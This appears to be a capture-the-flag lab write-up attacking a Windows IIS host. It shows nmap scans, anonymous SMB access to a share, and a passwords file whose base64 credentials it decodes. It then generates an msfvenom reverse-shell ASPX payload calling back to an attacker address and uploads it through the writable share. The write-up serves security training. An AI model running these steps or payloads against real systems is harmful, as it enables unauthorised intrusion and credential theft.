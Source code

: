 ```bash
Discovered open port 49666/tcp on 10.10.55.80
Discovered open port 49667/tcp on 10.10.55.80

nmap -sV -sC -p49663,49666,49667 -oN nmap2 10.10.55.80 

49663/tcp open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
```

## SMB
```bash
smbclient -L 10.10.150.121 -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      

smbclient //10.10.55.80/nt4wrksv -N 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 4936668 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)

```
In passwords.txt
```
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk      
```
If we decode it from base64
```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```
However, Cannot connect to other shares.
Cannot RDP. 
# Exploiting Microsoft IIS to get Shell
service running on 44663 seems vulnerable.
If you check `http://<IP>/nt4wrksv/passwords.txt`, it will open the same file. Considering the fact that the share is both readeable and writeable, we can upload web shell. 
```bash
# web shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.97.245 LPORT=1234 -f aspx >reverse.aspx

smbclient //10.10.55.80/nt4wrksv -N 
smb> put reverse.aspx
```
